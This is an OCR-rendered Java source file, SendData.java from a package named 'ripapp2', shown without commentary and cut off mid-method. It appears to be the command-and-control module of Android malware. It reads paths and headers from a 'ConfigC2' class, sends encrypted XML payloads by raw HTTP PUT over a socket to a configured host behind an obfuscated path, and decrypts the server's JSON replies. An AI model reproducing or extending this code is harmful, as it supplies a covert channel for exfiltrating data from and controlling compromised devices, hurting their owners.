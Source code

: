 SendData.java   
```java
package com.example.ripapp2;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.net.Socket;
import java.util.ArrayList;
import org.json.JSONObject;

public class SendData {
    public static JSONObject send(Integer num) {
        return send("/fsalke2j9sdfcjlz/" + ConfigC2.urllist.get(num.intValue()));
    }

    public static JSONObject send(Integer num, String str) throws Exception {
        return send("/fsalke2j9sdfcjlz/" + ConfigC2.urllist.get(num.intValue()), str);
    }

    public static JSONObject send(String str) { // PATH 
        ArrayList<String> arrayList = ConfigC2.head;
        // PUT PATH HTTP/1.1
        return sock(BuildConfig.HOST, BuildConfig.PORT, arrayList.get(0)/*PUT*/ + str + arrayList.get(1) /*HTTP/1.1*/+ BuildConfig.HOST + arrayList.get(2) /* Connection: close */);
    }

    public static JSONObject send(String str, String str2) throws Exception {
        ArrayList<String> arrayList = ConfigC2.head;
        ArrayList<String> arrayList2 = ConfigC2.body;

        /* <?xml version="1.0" encoding="UTF-8"?>\n<root>\n <data>\n  <![CDATA[ + str + ]]>\n </data>\n</root> */
        String encrypt = EncData.encrypt(arrayList2.get(2) + str2 + arrayList2.get(3));
                
        return sock(BuildConfig.HOST, BuildConfig.PORT, 
                arrayList.get(0) + str + arrayList.get(1) 
                + BuildConfig.HOST 
                + arrayList2.get(0) /* \r\nCookie: myapp=myapp\r\n */
                + arrayList2.get(1) /* Content-Type: application/xml\r\nContent-Length: */ + encrypt.length() 
                + arrayList.get(2)  /* Connection: close */ + encrypt);
    }

    public static JSONObject sock(final String str, final String str2, final String str3) {
        final JSONObject[] jSONObjectArr = {null};
        Thread thread = new Thread(new Runnable() {
            public void run() {
                try {
                    StringBuilder sb = new StringBuilder();
                    Socket socket = new Socket(str, Integer.parseInt(str2));
                    OutputStream outputStream = socket.getOutputStream();
                    outputStream.write(str3.getBytes());
                    outputStream.flush();
                    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
                    while (true) {
                        String readLine = bufferedReader.readLine();
                        if (readLine != null) {
                            sb.append(readLine).append("\n");
                        } else {
                            String sb2 = sb.toString();
                            jSONObjectArr[0] = new JSONObject(EncData.decrypt(sb2.substring(sb2.indexOf("\n\n") + 2).trim()));
```